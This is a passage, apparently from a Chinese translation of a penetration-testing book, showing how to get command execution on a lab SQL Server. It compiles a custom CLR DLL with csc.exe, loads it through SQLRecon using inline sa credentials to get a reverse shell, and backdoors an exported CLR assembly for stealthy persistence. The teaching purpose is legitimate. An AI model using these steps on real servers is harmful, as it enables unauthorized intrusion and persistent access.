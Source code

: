 以下两个命令将编译上面的代码为 DLL，SQLRecon 将自动化其余的过程：

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:library C:\Users\Public\runcmd.csc
SQLRecon.exe /auth:Local /host:braavos.essos.local /username:sa /password:"sa_P@ssw0rd!Ess0s" /module:Clr /dll:runcmd.dll /function:cmd_exec
```

请注意，SQLRecon 通过将程序集添加到信任列表来绕过`clr strict security`选项：

![图 9.16 – 自定义 CLR 成功执行反向 Shell](img/B18964_09_16.jpg)

图 9.16 – 自定义 CLR 成功执行反向 Shell

结果，我们在目标上获得了一个交互式 Shell：

![图 9.17 – 数据库服务器上的交互式反向 Shell](img/B18964_09_17.jpg)

图 9.17 – 数据库服务器上的交互式反向 Shell

这个功能也在 Metasploit 模块`exploit/windows/mssql/mssql_clr_payload`和另一个 PowerShell 工具`SeeCLRly`[22]中实现。

为了列出并导出现有的 CLR 程序集，PowerUpSQL 实现了`Get-SQLStoredProcedureCLR`函数。我们可以使用`dnSpy`反编译器修改导出的 CLR DLL，然后重新上传它，覆盖现有的文件，以实现隐蔽持久化。
